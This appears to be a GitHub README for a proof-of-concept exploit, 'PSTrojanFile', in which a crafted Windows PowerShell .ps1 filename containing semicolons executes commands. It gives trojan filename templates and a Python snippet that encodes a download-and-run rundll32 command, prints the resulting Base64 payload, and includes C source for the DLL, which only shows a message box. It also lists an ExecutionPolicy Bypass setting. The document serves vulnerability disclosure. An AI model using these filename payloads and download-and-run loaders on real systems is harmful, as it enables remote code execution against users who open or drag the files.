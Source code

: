 # PSTrojanFile
Windows PowerShell Filename Code Execution POC

Dusted this off and improved it a bit, reported to Microsoft in 2019 remains unfixed as of the time of this writing. <br>  
Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just exec commands.

Test;POweRsHeLL -e [BASE64 PAYLOAD];.ps1 <br>  

OR just call commands straight away! <br>  

Testing;saps (gc -) PoC.ps1

1) Execute a remote DLL using rundll32
2) Execute an unintended PS script (for a short non base64 encoded filename)
3) Execute a hidden text-file: Testing;saps (gc -) PoC.ps1  (Optional: attrib +s +h text-file)

Vectors: double click, drag and drop to PS shortcut
Requirements: user must have the following setting to call a secondary script
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

Create a trojan PS1 file that will try to download and execute a remote DLL namec "1.d"

Python: <br>  
from base64 import b64encode
b64encode("saps  http://127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code:
#include <windows.h>
//gcc -shared -o mydll.dll mydll.c -m32
//hyp3rlinx 
void evilo(void){
MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1);
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){
evilo();
return 0;
}

Video PoC:

